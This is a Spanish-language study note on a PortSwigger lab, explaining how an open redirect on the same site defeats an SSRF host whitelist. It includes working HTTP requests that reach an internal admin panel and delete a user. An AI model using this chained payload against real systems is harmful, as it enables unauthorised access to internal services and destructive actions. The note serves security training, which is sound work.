

---
aliases:
  - SSRF 005 - bypass via open redirect
  - ssrf open redirection
tags:
  - vuln/ssrf
  - example
  - portswigger
---

# 005 — Saltar el filtro vía open redirection

> Lab: [SSRF with filter bypass via open redirection](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection) · **Practitioner** · técnica → [[vulnerabilities/007-ssrf/ssrf|entry point]]

## ¿Por qué acá?
- **Vengo de [[vulnerabilities/007-ssrf/examples/004-bypass-whitelist|004]]:** ahí engañaba al parser con `@`/`#`.
- **Por qué no me alcanza 004:** acá el `stockApi` **valida bien el host** y no hay truco de parseo que lo rompa — solo acepta URLs del **propio sitio**. No puedo *falsear* el destino.
- **Entonces:** no falseo nada; encadeno **otra vuln del sitio** — un **open redirect** — y dejo que **el server siga la redirección** hasta el host interno. La whitelist ve una URL propia; el redirect hace el resto.

> [!note] Primero, ¿qué es y cómo se detecta un open redirect?
> Eso es la vuln en sí (agnóstica) → [[vulnerabilities/open-redirect/README|Open Redirect]]. **Acá damos por hecho que ya encontraste uno** y vemos cómo usarlo como **bypass de la whitelist de SSRF**.

## Por qué la whitelist no lo frena
El filtro valida la URL **al enviarla** — una sola vez:
```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
         └──────────────┬──────────────┘
         esto ES del dominio propio → PASA el filtro ✅
```
Ve `/product/nextProduct` (dominio propio) y la deja pasar. **Pero no revalida el destino:** el fetcher recibe el `302` y lo sigue hasta el host interno **sin chequear de nuevo**.

## Cómo fluye (el `302` encadenado)


## Cómo explotarlo
Metés la ruta del open redirect como valor de `stockApi` (es del propio sitio → pasa el filtro) apuntando el `path` al host interno:
```http
POST /product/stock HTTP/1.1
Host: LAB.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```
El stock-checker sigue el `302` hasta `192.168.0.12:8080/admin`. Después:
```http
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

## Verificación
La respuesta trae el **panel admin** del host interno (llegaste vía redirect, no directo) → carlos borrado.

## Detalles que se pasan por alto
- El redirect tiene que **seguirse del lado servidor** (el fetcher lo hace solo). No es un redirect que ve tu browser.
- Tiene que aceptar una **URL absoluta** (`http://host/...`); si solo toma rutas relativas, no te deja elegir el host interno.
- Es el patrón **"encadenar 2 vulns"**: SSRF restringido + open redirect = SSRF sin restricción.

→ Siguiente: [[vulnerabilities/007-ssrf/examples/006-ssrf-ciego-deteccion-oob|006 · y si ni siquiera veo la respuesta? (blind)]]
